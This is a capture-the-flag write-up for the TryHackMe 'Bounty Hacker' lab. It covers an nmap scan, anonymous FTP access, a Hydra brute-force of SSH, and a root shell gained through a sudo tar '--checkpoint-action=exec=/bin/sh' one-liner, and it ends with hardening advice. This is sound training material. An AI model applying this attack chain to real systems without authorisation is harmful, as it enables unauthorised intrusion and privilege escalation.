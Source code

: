 # Bounty Hacker - [THM](https://tryhackme.com/room/cowboyhacker)

## 1. Nmap

- Run a port/service scan nmap to enumerate open services.

 ```bash
$ nmap 10.10.32.149 -Pn -sC -sV -T4              
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.23.104.240
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 da:50:aa:3a:49:50:82:4a:0d:7c:93:60:29:79:27:94 (RSA)
|   256 1e:4c:2a:d8:dd:6d:fb:a0:28:c0:98:87:57:5d:1b:6e (ECDSA)
|_  256 b2:2d:44:48:e7:df:73:11:db:af:00:9a:e1:cf:01:f3 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
## 2. Web (port 80)


![Imgur](https://github.com/user-attachments/assets/d526f8a5-23a5-431b-965c-a9217b0c6813)

-nothing interesting

## 3. FTP enumeration (port 21)

- connected to FTP and found **two files**. Downloaded both
  ![img](https://github.com/user-attachments/assets/75595f86-af9e-4617-8ca5-d4752566779b)

 - **File 1**: contains a message with a name
![img](https://github.com/user-attachments/assets/d3eb1d78-1b74-41d8-9dcb-f66e171ca91d)
 - **File 2**: contains a list (wordlist) of possible passwords
   ![img](https://github.com/user-attachments/assets/792ad481-0fdc-4a8e-ad93-78e3957e7d4c)

## 4. Credential discovery & brute force
- Using the password list found in FTP, i perfored a brute-force attempt with **Hydra** against the SSH service.
- Hydra returned a valid password for the discoverd username.
  ![img](https://github.com/user-attachments/assets/17b45d0e-b9df-47ba-b5a4-f19083a5e5b6)

## 5. SSH access - user shell
- logged in  via SSH with discovered credentials and obtained a shell as the user.
  ![img](https://github.com/user-attachments/assets/d9542279-e931-429b-a6ec-2ed8e7fe59d2)

- And i found the user flag
  ![img](https://github.com/user-attachments/assets/dff1be7e-a078-4b42-9086-56a11822770d)


## 6. Privilege escalation
- Checked sudo privileges with sudo -l
  ![img](https://github.com/user-attachments/assets/abb20d05-a1bd-4915-9d00-49bb56e1343a)
- Using known technique (GTFOBins entry for tar), I was able to leverage this to spawn a root shell
 ```bash
 $ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
## 7. Root flag
- now i'm a root and i found the root flag
  ![img](https://github.com/user-attachments/assets/f8a86142-8851-4801-94b3-f3b5ce627a70)

## 8. Recommendations
- Don't leave sensitive information (password lists) on anonymous services like FTP. Remove or protect them
- if this were a real service, disable anonymous FTP and tighten file permissions
